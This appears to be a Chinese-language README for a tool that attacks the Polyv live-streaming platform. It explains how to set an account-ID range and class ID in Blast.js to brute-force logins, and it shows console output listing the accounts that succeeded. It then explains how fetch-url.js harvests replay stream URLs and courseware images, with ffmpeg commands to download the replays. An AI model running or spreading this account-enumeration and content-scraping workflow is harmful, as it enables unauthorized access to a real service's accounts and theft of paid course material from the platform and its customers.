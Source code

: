 # 保利威（Polyv）直播破解器

## 直播账号爆破

运行前请修改`Blast.js`中的9至11行

```javascript
var lower_bound = 114500;
var upper_bound = 114600;
var classid = 1919810;
```

其中，`lower_bound`为起始爆破账号，`upper_bound`为末尾爆破账号，即从`lower_bound`开始爆破直至`upper_bound`结束。

`classid`获取方式：
[`https://live.polyv.cn/splash/1919810`](https://live.polyv.cn/splash/1919810)其中`splash`后的`1919810`即为`classid`

运行方式：

```bash
node Blast.js
```

运行结束后的控制台输出：

```
Blaster customized for 保利威（Polyv）
From 114500 to 114600 100 PhoneID in all

Blasting 1919810 with key 114512 SUCCESS
Blasting 1919810 with key 114514 SUCCESS
Blasting 1919810 with key 114533 SUCCESS

Finished Blasting from 114500 to 114599 100 PhoneID in all
```

其中`114512`、`114514`、`114533`即为可登录的账号



## 直播回放及课件下载

运行前请修改`fetch-url.js`中的10至14行

```javascript
var lower_bound = 114500;
var upper_bound = 114600;
var classid = 1919810;
```

其中，`lower_bound`为起始爆破账号，`upper_bound`为末尾爆破账号，即从`lower_bound`开始爆破直至`upper_bound`结束。

`classid`获取方式：
[`https://live.polyv.cn/splash/1919810`](https://live.polyv.cn/splash/1919810)其中`splash`后的`1919810`即为`classid`

运行方式：

```bash
node fetch-url.js
```

运行结束后的控制台输出（非重要内容用`……`省去）：

```
DevTools listening on ws://127.0.0.1:59269/devtools/browser/5b93b8ef-509e-4570-b7a7-8ecda03889f1
https://live.polyv.cn/splash/1919810 直播1 opened Entered
https://live-video-qc.videocc.net/……/index.m3u8
3401314
[
  'https://doc-2.polyv.net/images/2022/05/……common_0000.jpeg',
  'https://doc-2.polyv.net/images/2022/05/……common_0001.jpeg',
  'https://doc-2.polyv.net/images/2022/05/……common_0002.jpeg',
]
3450520
[
  'https://doc-2.polyv.net/images/2022/06/……common_0000.jpeg',
  'https://doc-2.polyv.net/images/2022/06/……common_0001.jpeg',
]
3450610
https://live.polyv.cn/splash/1919812 直播2 opened Entered
[
  'https://doc-2.polyv.net/images/2022/06/……common_0000.jpeg',
]
https://live-video-qc.videocc.net/……/index.m3u8
https://live.polyv.cn/splash/1919833 直播3 opened Entered
https://live-video-qc.videocc.net/……/index.m3u8

 FFmpeg download command
ffmpeg -i https://live-video-qc.videocc.net/……/index.m3u8 直播1.mp4
ffmpeg -i https://live-video-qc.videocc.net/……/index.m3u8 直播2.mp4
ffmpeg -i https://live-video-qc.videocc.net/……/index.m3u8 直播3.mp4
```

同时，如果直播内有使用课件进行讲述，会在当前目录下创建文件，文件树形如：

```
课件下载
└─{{ 运行时的日期 }}
    ├─直播1
    │  ├─{{ 课件3401314文件名 }}_0000.jpeg
    │  ├─{{ 课件3401314文件名 }}_0001.jpeg
    │  ├─{{ 课件3450520文件名 }}_0002.jpeg
    │  ├─{{ 课件3450520文件名 }}_0000.jpeg
    │  └─{{ 课件3450520文件名 }}_0001.jpeg
    └─直播2
       └─{{ 课件3450610文件名 }}_0000.jpeg
```

